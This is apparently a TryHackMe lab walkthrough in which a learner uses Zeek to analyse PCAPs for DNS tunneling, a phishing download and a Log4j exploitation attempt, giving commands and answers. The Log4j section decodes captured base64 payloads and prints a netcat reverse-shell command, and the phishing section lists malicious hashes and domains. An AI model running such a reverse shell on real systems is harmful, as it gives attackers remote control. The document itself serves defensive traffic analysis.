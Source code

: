 #Subscribers 
https://tryhackme.com/room/zeekbroexercises

The room invites you a challenge to investigate a series of traffic data and stop malicious activity under different scenarios. Let's start working with Zeek to analyse the captured traffic.  

We recommend completing the [**Zeek**](https://tryhackme.com/room/zeekbro) room first, which will teach you how to use the tool in depth.

## task 2 - anomalous DNS 

An alert triggered: "Anomalous DNS Activity".

The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive.

```
DNS "AAAA" records store IPV6 addresses.
Investigate the dns-tunneling.pcap file. Investigate the dns.log file. What is the number of DNS records linked to the IPv6 address?

zeek -C -r dns-tunneling.pcap 
cat dns.log | grep "AAAA" | wc -l
320


Investigate the conn.log file. What is the longest connection duration?
The "duration" value represents the connection time between two hosts.

cat conn.log | zeek-cut duration | sort -u
9.420791


Investigate the dns.log file. Filter all unique DNS queries. What is the number of unique domain queries?

cat dns.log | zeek-cut query | rev |cut -d '.' -f 1-2
cat dns.log | zeek-cut query | rev | cut -d '.' -f 1-2 | rev | sort | uniq | wc -l

6


There are a massive amount of DNS queries sent to the same domain. This is abnormal. Let's find out which hosts are involved in this activity. Investigate the conn.log file. What is the IP address of the source host?

cat conn.log | zeek-cut id.orig_h | uniq
10.20.57.3

```




## phishing 

An alert triggered: "Phishing Attempt".

The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive.

```
Investigate the logs. What is the suspicious source address? Enter your answer in defanged format.

zeek -C -r phishing.pcap
cat conn.log | zeek-cut id.orig_h | uniq
10.6.27.102



Investigate the http.log file. Which domain address were the malicious files downloaded from? Enter your answer in defanged format.

cat http.log | zeek-cut host 
smart-fax[.]com



Investigate the malicious document in VirusTotal. What kind of file is associated with the malicious document?

cat http.log | zeek-cut md5



Investigate the extracted malicious .exe file. What is the given file name in Virustotal?

b4b61ac67a6fa7fa4d1b91ea9442e6dc

cc28e40b46237ab6d5282199ef78c464

PleaseWaitWindow.exe


Investigate the malicious .exe file in VirusTotal. What is the contacted domain name? Enter your answer in defanged format.

hopto[.]org

Investigate the http.log file. What is the request name of the downloaded malicious .exe file?

cat http.log | zeek-cut uri | grep ".exe"
knr.exe

```



## log4j

**An alert triggered:** "Log4J Exploitation Attempt".

The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive.

```
Investigate the log4shell.pcapng file with detection-log4j.zeek script. Investigate the signature.log file. What is the number of signature hits?

zeek -C -r log4shell.pcapng
zeek -C -r log4shell.pcapng detection-log4j.zeek 

cat signatures.log | zeek-cut sig_id | wc -l
3



Investigate the http.log file. Which tool is used for scanning? User-agent info can help.

cat http.log | zeek-cut user_agent | sort -u
nmap


Investigate the http.log file. What is the extension of the exploit file? Uri info can help.

cat http.log | zeek-cut uri resp_mime_types | sort -u
.class



Investigate the log4j.log file. Decode the base64 commands. What is the name of the created file?  "echo 'base64 data' | base64 --decode"

cat log4j.log | grep -i "command"

dG91Y2ggL3RtcC9wd25lZAo=
d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==
dG91Y2ggL3RtcC9wd25lZAo=
d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==
bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==

touch /tmp/pwned
which nc > /tmp/pwned
touch /tmp/pwned
which nc > /tmp/pwned
nc 192.168.56.102 80 -e /bin/sh -vvv

pwned



```
































































